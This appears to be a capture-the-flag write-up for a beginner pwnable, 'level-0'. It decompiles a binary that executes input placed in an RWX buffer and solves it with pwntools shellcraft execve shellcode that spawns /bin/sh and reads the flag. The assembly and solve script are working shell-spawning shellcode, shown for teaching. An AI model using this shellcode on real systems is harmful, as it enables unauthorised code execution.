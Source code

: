 # level-0

## Introduction

A pwnable passed down from my mentor, @huckfinn. This problem focuses on
creating shellcode.

## Information Gathering

### Hint #1

> This program will literally do anything you want it to do.

```shell
$ checksec ./level-0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Dynamic

If we run the program we see that the program is waiting for input. When we
enter the input, the program immediately segfaults. Given the hint, it makes me
think that this program is literally running the bytes given to it. Since
`test` doesn't correspond to valid instructions in amd64, the program dies.

```shell
$ ./level-0
test
Segmentation fault (core dumped)
```

### Static

We threw the program in Ghidra and this was the result after some cleanup.

```c
int main(void){
  code *__buf;

  init_chal();
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,__buf,4096);
  (*__buf)();
  return 0;
}
```

Notably, the `main` function is `mmap`ing the region of memory where `buf` is
with the following arguments: `mmap(addr=NULL, length=0x1000, prot=0x7,
flags=0x22, fd=0xfffffff, offset=0x0)`

The prot (protections) argument describes the desired memory protection of the
mapping. It is a bitwise OR of one or more of the following flags:

```c
#define PROT_READ	0x1		/* page can be read */
#define PROT_WRITE	0x2	   /* page can be written */
#define PROT_EXEC	0x4		/* page can be executed */
#define PROT_SEM	0x8		 /* page may be used for atomic ops */
#define PROT_NONE	0x0		/* page can not be accessed */
```

With a prot bitmask of 0x7 the memory location is set to read, write, and
execute. The combination of the latter two are particularly interesting when we
see that it is actually executing the contents of `buf` as though there are
instructions there. There currently aren't, but could there be?

Yes! We just need to send the program some shellcode to execute.

## Strategy

The idea is simple. We just need to write some shellcode to `execv` a shell. We
could do this by hand, which would be a great exercise, but we're going to
leverage `pwntool` to do the hard part for us.

With `pwntools` we can start our `shellcraft` module to launch a shell pretty
easily.

```python
exe = ELF('./level-0')
context.binary = exe
# Create the shellcode.
shellcode = shellcraft.sh()
```

What might trip you up is how the `shellcraft` module works. You typically need
to specify the architecture and the operating system such that is would
something like this:

```python
# Create the shellcode.
shellcode = shellcraft.amd64.linux.sh()
```

However, because we have set `context.binary` in our script, `pwntools` is
smart enough to figure that part out. Hopefully this saves you some heartache.

You can print out the result by calling `print(shellcode)` and see the
following assembly:

```asm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```

Now all that is left is to send it the program. We can't send the assembly
output as shown above; we need to convert it to the actual hexadecimal opcodes
that the program will run with the `asm` function. We can do that and send it
to the program. Putting it all together looks something like the following:

```python
# Pop a shell.
shellcode = shellcraft.sh()
io.sendline(asm(shellcode))

# Get the flag.
io.sendline("cat flag.txt")
flag = io.recvline()
log.success(f"Flag: {flag}")
```

## The Solution

You should be able to run the script like so and get the flag!

```shell
$ python3 ./solve.py
[+] Flag: b'flag{RememberAllIAmOfferingIsTheTruth}\n'
[+] Time: 0.1028270721435546
```

## Mitigations

I won't even discuss exploitation mitigations since the develops purposefully
made `buf` RWX. :)
